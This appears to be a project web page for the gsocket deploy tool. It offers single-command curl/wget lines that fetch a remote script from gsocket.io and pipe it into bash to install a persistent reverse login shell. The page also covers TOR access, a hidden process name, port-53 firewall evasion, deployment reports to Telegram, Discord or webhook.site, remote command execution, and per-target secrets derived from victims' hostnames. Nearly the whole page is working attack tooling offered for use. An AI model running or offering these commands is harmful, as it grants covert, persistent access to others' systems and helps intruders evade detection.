

Deploy a reverse login shell with a *single command* (fully automated) - and access the shell remotely - encrypted - and via TOR if you like.

> _This must be the quickest way to access a system_ -- anonymous

Use either one of these three commands to _install_, _uninstall_, and _access_:

    

        

            <input type="radio" name="css-tabs-init" id="curl-init" class="tab-switch" checked>
            <label for="curl-init" class="tab-label">Curl</label>
            

                <ul>
                    <li>
<strong>Install</strong>


bash -c "$(curl -fsSL https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Uninstall</strong>


GS_UNDO=1 bash -c "$(curl -fsSL https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Access</strong>


S="ExampleSecretChangeMe" bash -c "$(curl -fsSL https://gsocket.io/x)"

                    </li>
                </ul>
            

        

        

            <input type="radio" name="css-tabs-init" id="wget-init" class="tab-switch">
            <label for="wget-init" class="tab-label">Wget</label>
            

                <ul>
                    <li>
<strong>Install</strong>


bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"

                    </li>
                </ul>
                <ul>
                    <li>
<strong>Uninstall</strong>


GS_UNDO=1 bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"

                    </li>
                </ul>
                <ul>
                    <li>
<strong>Access</strong>


S="ExampleSecretChangeMe" bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"

                    </li>
                </ul>
            

        

    

Windows user need to manually install <A HREF="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip">the binary</A>. Contact us if you like to write a powershell deploy script.

{:refdef: style="text-align: center;"}
## Screenshots
{: refdef}
Deploy on a host
{:refdef: style="text-align: center;"}

{: refdef}
Log in to the host from your workstation
{:refdef: style="text-align: center;"}

{: refdef}

{:refdef: style="text-align: center;"}
## Tips & Tricks
{: refdef}

    

        

            <input type="radio" name="css-tabs-tricks" id="curl-tricks" class="tab-switch" checked>
            <label for="curl-tricks" class="tab-label">Curl</label>
            

                <ul>
                    <li>
<strong>Ignore SSL / Certificate warnings</strong>


GS_NOCERTCHECK=1 bash -c "$(curl -fsSLk https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Deploy with a predefined secret</strong>


X=ExampleSecretChangeMe bash -c "$(curl -fsSL https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong>


curl -fsSL http://nossl.segfault.net/deploy-all.sh -o deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh

                    </li>
                </ul>
            

        

        

            <input type="radio" name="css-tabs-tricks" id="wget-tricks" class="tab-switch">
            <label for="wget-tricks" class="tab-label">Wget</label>
            

                <ul>
                    <li>
<strong>Ignore SSL / Certificate warnings</strong>


GS_NOCERTCHECK=1 bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Deploy with a predefined secret</strong>


X=ExampleSecretChangeMe bash -c "$(wget --no-verbose -O- https://gsocket.io/x)"

                    </li>
                    <li>
<strong>Deploy from self-extracting shell-script <a href="https://github.com/hackerschoice/binary/raw/main/gsocket/bin/deploy-all.sh" target="_blank">deploy-all.sh</a> without fetching any packages and using good old plain HTTP</strong>


wget --no-hsts http://nossl.segfault.net/deploy-all.sh && \
bash deploy-all.sh
# alternative if port 443 is firewalled:
GS_PORT=53 bash deploy-all.sh

                    </li>
                </ul>
            

        

    

Useful environment variables:  

|:---|:---|
|S=|Connect to a system (or use `gs-netcat -s <secret> -il`).|
|X=|Set a predefined secret for the installation (X like in inXstallation).|
|GS_NOINST=1|Only start but without installing (will not survive a reboot).|
|GSOCKET_ARGS=|Use additonal arguments. Most often used to force TOR in combination with S=, e.g. `GSOCKET_ARGS="-T" S=<secret> bash -c "$(curl -fsSLk https://gsocket.io/x)`.|
|GS_DSTDIR=|Set the installation directory. The default is to pick the most suitable automatically. Use `find . -type d -writable`. |
|GS_URL_BASE=|Use URL for static binaries. An alternative base is https://github.com/hackerschoice/binary/raw/main/gsocket|
|GS_OSARCH=|Force architecture. The default is to pick the most suitable automatically.
|GS_DEBUG=1|Verbose output and other debug related settings. Often used together with `GS_DEBUG=1 GS_NOSTART=1 GS_NOINST=1 bash -c "$(curl -fsSL https://gsocket.io/x)"`.|
|GS_HIDDEN_NAME=|Use a custom hidden process name.|
|GS_HOST=|Use a specific GSRN server (or [your own relay](https://github.com/hackerschoice/gsocket-relay/blob/main/README2.md)). Try GS_HOST=1.2.3.4|
|GS_PORT=|Use a specific GSRN port. Try any of 22,53,67,443,7350|
|GS_TG_TOKEN=|Telegram Bot Key for reporting successfull deployments.|
|GS_TG_CHATID=|Telegram Chat ID.|
|GS_DISCORD_KEY=|Report to Discord|
|GS_WEBHOOK_KEY=|Report to webhook.site|
|TMPDIR=|Use a custom temporary directory. Try TMPDIR=$(pwd)|

If all fails:

Download the static binary from [https://github.com/hackerschoice/binary/tree/main/gsocket/bin](https://github.com/hackerschoice/binary/tree/main/gsocket/bin) (likely [gs-netcat_x86_64-alpine.tar.gz](https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz)) and extract and start gs-netcat manually. There also is an (unsupported) [Windows binary](https://github.com/hackerschoice/binary/blob/main/gsocket/bin/gs-netcat_x86_64-cygwin_full.zip) or [qsocket.io](https://www.qsocket.io/).

    

        

            <input type="radio" name="css-tabs-manual" id="curl-manual" class="tab-switch" checked>
            <label for="curl-manual" class="tab-label">Curl</label>
            


curl -fsSL https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GS_PORT=53 GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 

            

        

        

            <input type="radio" name="css-tabs-manual" id="wget-manual" class="tab-switch">
            <label for="wget-manual" class="tab-label">Wget</label>
            


wget -qO- https://github.com/hackerschoice/binary/raw/main/gsocket/bin/gs-netcat_x86_64-alpine.tar.gz | tar xz -C /bin gs-netcat
SECRET=$(/bin/gs-netcat -g)
GS_PORT=53 GSOCKET_ARGS="-liD -s $SECRET" /bin/gs-netcat
echo "Connect with: gs-netcat -s $SECRET -i" 

            

        

    

(Note: *GS_PORT=53* is only needed if port 443 is firewalled).

{:refdef: style="text-align: center;"}
## Advanced Tips & Tricks
{: refdef}

### 1. Run your own Deployment Server  
This method logs each successful deployment. The 1-line command creates an ephemeral and public facing HTTPS tunnel (via Cloudflare) so that your server can be behind NAT/Firewall:


LOG=results.log bash -c "$(curl -fsSL https://gsocket.io/xs)"


### 2. Execute a remote command  


# cut & paste this into your shell on your workstation or add to ~/.bashrc
gsexec() {
    echo "$2; exit; __START"|gs-netcat -s "$1" 2>/dev/null|sed -n '/__START/,$p'|tail +2
}


Then execute a remote command like this:

gsexec MySecretChangeMe "id; uname -a"


### 3. Managing Secrets  
Remembering many secrets from many deployments is cumbersome. It is easier to remember just one MASTER-SEED and derive the SECRET from the target's hostname. The following script generates a secure SECRET based on a single MASTER-SEED and the target's hostname.


# cut & paste this into your shell on your workstation or add to ~/.bashrc
gssec() {
    [[ -z $GS_SEED ]] && { echo >&2 "Please type: GS_SEED=MySuperStrongMasterSeed"; return 255; }
    str="$(echo "${GS_SEED:?}$1" | sha512sum | base64 | tr -d -c a-z0-9)"
    str="${str:0:22}"
    [[ ! -t 1 ]] && { echo "${str}"; return; }
    echo "DEPLOY: X=${str}"' bash -c "$(curl -fsSL https://gsocket.io/x)"'
    echo "ACCESS: S=${str}"' bash -c "$(curl -fsSL https://gsocket.io/x)"'
    echo "ACCESS: gs-netcat -s ${str} -i"
}


# Set a Master Seed:
GS_SEED="ThisIsMySecretMasterSeed"

# Connect to 'alice.com'
gs-netcat -i -s $(gssec alice.com)
-----------------------------------------------------------------------------
# or show the commands to deploy on/access to 'alice.com'
gssec alice.com

# Output from above's command:
DEPLOY: X=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/x)"
ACCESS: S=2m1zidi1zkkmxjjj0z0jlj bash -c "$(curl -fsSL https://gsocket.io/x)"
ACCESS: gs-netcat -s 2m1zidi1zkkmxjjj0z0jlj -i


Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

<!-- Moved JS code as includes -->

